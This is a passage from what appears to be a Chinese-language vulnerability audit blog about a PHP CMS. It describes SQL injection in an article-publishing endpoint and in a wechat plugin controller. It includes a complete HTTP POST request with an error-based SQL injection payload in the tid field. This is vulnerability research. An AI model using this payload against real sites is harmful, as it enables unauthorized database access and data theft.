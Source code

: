 最终执行

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023160703.png)

## 四、发布文章sql注入

这个似乎是beta版本的洞

beta：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023164533.png)

正式版：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211023164550.png)

payload

	POST /user/release.html HTTP/1.1
	Host: www.jizhi.com:1238
	Content-Length: 221
	Cache-Control: max-age=0
	Upgrade-Insecure-Requests: 1
	Origin: http://www.jizhi.com:1238
	Content-Type: application/x-www-form-urlencoded
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Referer: http://www.jizhi.com:1238/user/release.html
	Accept-Encoding: gzip, deflate
	Accept-Language: zh-CN,zh;q=0.9,ko;q=0.8
	Cookie: PHPSESSID=216fp73bnjss25l5tnlqtb5bmt
	Connection: close

	id=&isshow=&molds=article&tid=2'and%20extractvalue(1,%20concat(0x5c,%20(select%20database()),0x5c))%20and%20%20'1'='1&title=1&keywords=1&litpic=&file_litpic=&description=1&submit=%E6%8F%90%E4%BA%A4&body=%3Cp%3E1%3C%2Fp%3E

# v1.7

## 一、wechat插件sql注入
对着Seay的报告审了几个都无果，记得之前看的文章提到wechat部分存在漏洞，于是直接跳到Home/c/WechatController.php。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211028201040.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211028201313.png)

显然这里url不可控，所以不存在任意文件读取。
但是在上下都有一个M函数，find和add似乎是和数据库交互的语句，参数除了包含不可控的user外还有一个openid

